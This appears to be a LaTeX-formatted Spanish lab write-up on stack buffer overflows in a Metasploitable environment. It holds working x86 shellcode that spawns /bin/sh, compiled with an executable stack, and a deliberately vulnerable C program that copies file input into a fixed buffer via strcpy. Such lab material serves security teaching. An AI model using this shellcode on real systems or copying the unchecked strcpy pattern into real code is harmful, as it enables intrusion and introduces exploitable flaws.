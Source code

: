 \documentclass[]{article}
\begin{document}
\begin{minipage}{\linewidth}
Primero, construimos un shell en ensamblador embebido en C:
\begin{lstlisting}
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char code[] =
	"\x31\xc0" /* Line 1: xorl %eax,%eax */
	"\x50" /* Line 2: pushl %eax */
	"\x68""//sh" /* Line 3: pushl $0x68732f2f */
	"\x68""/bin" /* Line 4: pushl $0x6e69622f */
	"\x89\xe3" /* Line 5: movl %esp,%ebx */
	"\x50" /* Line 6: pushl %eax */
	"\x53" /* Line 7: pushl %ebx */
	"\x89\xe1" /* Line 8: movl %esp,%ecx */
	"\x99" /* Line 9: cdq */
	"\xb0\x0b" /* Line 10: movb $0x0b,%al */
	"\xcd\x80" /* Line 11: int $0x80 */
	;
	
int main(int argc, char **argv)
{
	char buf[sizeof(code)];
	strcpy(buf, code);
	((void(*)( ))buf)( );
}
\end{lstlisting}
\end{minipage}
 
\vspace{10pt}

Si lo compilamos y ejecutamos, la línea 

\begin{lstlisting}
((void(*)( ))buf)( );
\end{lstlisting}

hace saltar el contador de programa al ensamblador escrito en code[], que se ha copiado en buf[].

\begin{verbatim}
	gcc bo2shell.c -z execstack -o bo2shell
	msfadmin@metasploitable:~$ ./bo2shell 
	sh-3.2$ echo hi
	hi
	sh-3.2$ id
	uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),...
\end{verbatim}

Vemos que el id del shell es el mismo que el usuario que lo ejecuta, comportamiento esperado. Ahora, si construimos una aplicación vulnerable a stack buffer overflow:

\begin{minipage}{\linewidth}
\begin{lstlisting}
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
	char huecos[16];
	char buffer[24];
	fprintf(stderr, "buffer: \n%p\n", buffer);
	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);
	return 1;
}

int main(int argc, char **argv)
{
	char str[517];
	FILE *badfile;
	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
}
\end{lstlisting}
\end{minipage}
\end{document}
